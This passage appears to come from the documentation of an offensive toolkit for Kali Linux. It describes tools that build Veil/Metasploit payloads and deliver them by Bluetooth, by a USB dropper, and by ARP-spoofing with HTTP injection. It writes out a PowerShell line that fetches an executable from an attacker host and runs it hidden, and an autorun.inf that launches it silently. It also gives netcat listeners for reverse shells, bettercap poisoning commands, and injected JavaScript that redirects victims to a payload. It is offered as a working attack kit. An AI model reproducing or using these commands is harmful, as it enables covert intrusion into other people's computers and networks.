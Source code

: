 ### Tools
- **Kali**: `bluez` (`hcitool`), `veil`, `metasploit-framework`.

### Usage
- **Setup**: `sudo apt install bluez veil metasploit-framework`.
- **Run**: `sudo python3 bluepunk.py`—enter `LHOST`, generates EXE.
- **Deploy**: Transfer EXE via Bluetooth, start listener (`nc -lvp 4444`).
- **Output**: Device list in console, shell session, logs in `bluepunk.log`.

---

## 5. DropPunk: Automated Physical Device Dropper

### Purpose
Generates a USB dropper that fetches and runs a payload—stealthy physical attack.

### Technical Process
1. **Generate Payload**:
   - **Details**: Calls **RemotePunk**—`veil` outputs `/tmp/droppunk_veil.exe`.
2. **Generate Dropper**:
   - **File**: `droppunk.ps1`—PowerShell: `IWR -Uri "http://<LHOST>/droppunk.exe" -OutFile "$env:TEMP\\dp.exe"; Start-Process "$env:TEMP\\dp.exe" -WindowStyle Hidden`.
   - **Details**: Downloads EXE to `%TEMP%`, runs silently (`-WindowStyle Hidden`).
3. **Deploy**: 
   - **Details**: Copy `.ps1` to USB—autorun.inf optional (`[autorun]\nopen=powershell.exe -WindowStyle Hidden -File droppunk.ps1`).

### Tools
- **Kali**: `veil`, `metasploit-framework`, `python3` (http.server).

### Usage
- **Setup**: `sudo apt install veil metasploit-framework`.
- **Run**: `sudo python3 droppunk.py`—enter `LHOST`, generates EXE and `.ps1`.
- **Deploy**: Host EXE, copy `.ps1` to USB, start listener (`nc -lvp 4444`).
- **Output**: Shell session, logs in `droppunk.log`.

---

## 6. PoisonPunk: Network Traffic Poisoner

### Purpose
Poisons network traffic to inject a payload—remote access via MITM.

### Technical Process
1. **Generate Payload**:
   - **Details**: Calls **RemotePunk**—`veil` outputs `/tmp/poisonpunk_veil.exe`.
2. **Poison Network**:
   - **Commands**: 
     - `bettercap -iface wlan0 -caplet arp.spoof`—ARP poisons subnet.
     - `bettercap -iface wlan0 -caplet http.proxy -script inject.js`—proxies HTTP, injects JS.
   - **File**: `inject.js`—`document.location='http://<LHOST>/poison.exe';`—redirects to payload.
   - **Details**: ARP spoofing rewrites MAC tables, HTTP proxy intercepts traffic—JS forces download.
